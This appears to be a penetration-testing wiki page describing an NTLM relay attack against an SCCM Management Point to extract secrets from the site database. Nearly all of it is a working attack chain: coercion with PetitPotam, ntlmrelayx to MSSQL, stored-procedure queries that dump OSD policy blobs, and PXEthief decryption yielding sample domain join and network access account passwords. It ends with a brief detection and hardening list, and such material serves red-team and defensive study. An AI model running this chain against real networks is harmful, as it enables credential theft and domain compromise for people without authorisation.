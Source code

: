 # SCCM Management Point NTLM Relay to SQL – OSD Policy Secret Extraction

## TL;DR
By coercing a **System Center Configuration Manager (SCCM) Management Point (MP)** to authenticate over SMB/RPC and **relaying** that NTLM machine account to the **site database (MSSQL)** you obtain `smsdbrole_MP` / `smsdbrole_MPUserSvc` rights.  These roles let you call a set of stored procedures that expose **Operating System Deployment (OSD)** policy blobs (Network Access Account credentials, Task-Sequence variables, etc.).  The blobs are hex-encoded/encrypted but can be decoded and decrypted with **PXEthief**, yielding plaintext secrets.

High-level chain:
1. Discover MP & site DB ↦ unauthenticated HTTP endpoint `/SMS_MP/.sms_aut?MPKEYINFORMATIONMEDIA`.
2. Start `ntlmrelayx.py -t mssql://<SiteDB> -ts -socks`.
3. Coerce MP using **PetitPotam**, PrinterBug, DFSCoerce, etc.
4. Through the SOCKS proxy connect with `mssqlclient.py -windows-auth` as the relayed **<DOMAIN>\\<MP-host>$** account.
5. Execute:
   * `use CM_<SiteCode>`
   * `exec MP_GetMachinePolicyAssignments N'<UnknownComputerGUID>',N''`
   * `exec MP_GetPolicyBody N'<PolicyID>',N'<Version>'`   (or `MP_GetPolicyBodyAfterAuthorization`)
6. Strip `0xFFFE` BOM, `xxd -r -p` → XML  → `python3 pxethief.py 7 <hex>`.

Secrets such as `OSDJoinAccount/OSDJoinPassword`, `NetworkAccessUsername/Password`, etc. are recovered without touching PXE or clients.

---

## 1. Enumerating unauthenticated MP endpoints
The MP ISAPI extension **GetAuth.dll** exposes several parameters that don’t require authentication (unless the site is PKI-only):

| Parameter | Purpose |
|-----------|---------|
| `MPKEYINFORMATIONMEDIA` | Returns site signing cert public key + GUIDs of *x86* / *x64* **All Unknown Computers** devices. |
| `MPLIST` | Lists every Management-Point in the site. |
| `SITESIGNCERT` | Returns Primary-Site signing certificate (identify the site server without LDAP). |

Grab the GUIDs that will act as the **clientID** for later DB queries:
```bash
curl http://MP01.contoso.local/SMS_MP/.sms_aut?MPKEYINFORMATIONMEDIA | xmllint --format -
```

---

## 2. Relay the MP machine account to MSSQL
```bash
# 1. Start the relay listener (SMB→TDS)                              
ntlmrelayx.py -ts -t mssql://10.10.10.15 -socks -smb2support

# 2. Trigger authentication from the MP (PetitPotam example)
python3 PetitPotam.py 10.10.10.20 10.10.10.99 \
       -u alice -p P@ssw0rd! -d CONTOSO -dc-ip 10.10.10.10
```
When the coercion fires you should see something like:
```
[*] Authenticating against mssql://10.10.10.15 as CONTOSO/MP01$ SUCCEED
[*] SOCKS: Adding CONTOSO/MP01$@10.10.10.15(1433)
```

---

## 3. Identify OSD policies via stored procedures
Connect through the SOCKS proxy (port 1080 by default):
```bash
proxychains mssqlclient.py CONTOSO/MP01$@10.10.10.15 -windows-auth
```
Switch to the **CM_<SiteCode>** DB (use the 3-digit site code, e.g. `CM_001`).

### 3.1  Find Unknown-Computer GUIDs (optional)
```sql
USE CM_001;
SELECT SMS_Unique_Identifier0
FROM dbo.UnknownSystem_DISC
WHERE DiscArchKey = 2; -- 2 = x64, 0 = x86
```

### 3.2  List assigned policies
```sql
EXEC MP_GetMachinePolicyAssignments N'e9cd8c06-cc50-4b05-a4b2-9c9b5a51bbe7', N'';
```
Each row contains `PolicyAssignmentID`,`Body` (hex), `PolicyID`, `PolicyVersion`.

Focus on policies:
* **NAAConfig**  – Network Access Account creds
* **TS_Sequence** – Task Sequence variables (OSDJoinAccount/Password)
* **CollectionSettings** – Can contain run-as accounts

### 3.3  Retrieve full body
If you already have `PolicyID` & `PolicyVersion` you can skip the clientID requirement using:
```sql
EXEC MP_GetPolicyBody N'{083afd7a-b0be-4756-a4ce-c31825050325}', N'2.00';
```
> IMPORTANT: In SSMS increase “Maximum Characters Retrieved” (>65535) or the blob will be truncated.

---

## 4. Decode & decrypt the blob
```bash
# Remove the UTF-16 BOM, convert from hex → XML
echo 'fffe3c003f0078…' | xxd -r -p > policy.xml

# Decrypt with PXEthief (7 = decrypt attribute value)
python3 pxethief.py 7 $(xmlstarlet sel -t -v "//value/text()" policy.xml)
```
Recovered secrets example:
```
OSDJoinAccount : CONTOSO\\joiner
OSDJoinPassword: SuperSecret2025!
NetworkAccessUsername: CONTOSO\\SCCM_NAA
NetworkAccessPassword: P4ssw0rd123
```

---

## 5. Relevant SQL roles & procedures
Upon relay the login is mapped to:
* `smsdbrole_MP`
* `smsdbrole_MPUserSvc`

These roles expose dozens of EXEC permissions, the key ones used in this attack are:

| Stored Procedure | Purpose |
|------------------|---------|
| `MP_GetMachinePolicyAssignments` | List policies applied to a `clientID`. |
| `MP_GetPolicyBody` / `MP_GetPolicyBodyAfterAuthorization` | Return complete policy body. |
| `MP_GetListOfMPsInSiteOSD` | Returned by `MPKEYINFORMATIONMEDIA` path. |

You can inspect the full list with:
```sql
SELECT pr.name
FROM   sys.database_principals AS dp
JOIN   sys.database_permissions AS pe ON pe.grantee_principal_id = dp.principal_id
JOIN   sys.objects AS pr ON pr.object_id = pe.major_id
WHERE  dp.name IN ('smsdbrole_MP','smsdbrole_MPUserSvc')
  AND  pe.permission_name='EXECUTE';
```

---

## 6. Detection & Hardening
1. **Monitor MP logins** – any MP computer account logging in from an IP that isn’t its host ≈ relay.
2. Enable **Extended Protection for Authentication (EPA)** on the site database (`PREVENT-14`).
3. Disable unused NTLM, enforce SMB signing, restrict RPC (
   same mitigations used against `PetitPotam`/`PrinterBug`).
4. Harden MP ↔ DB communication with IPSec / mutual-TLS.

---

## See also
* NTLM relay fundamentals:
  
[[../ntlm/README.md]]

* MSSQL abuse & post-exploitation:
  
[[abusing-ad-mssql.md]]

## References
- [I’d Like to Speak to Your Manager: Stealing Secrets with Management Point Relays](https://specterops.io/blog/2025/07/15/id-like-to-speak-to-your-manager-stealing-secrets-with-management-point-relays/)
- [PXEthief](https://github.com/MWR-CyberSec/PXEThief)
- [Misconfiguration Manager – ELEVATE-4 & ELEVATE-5](https://github.com/subat0mik/Misconfiguration-Manager)

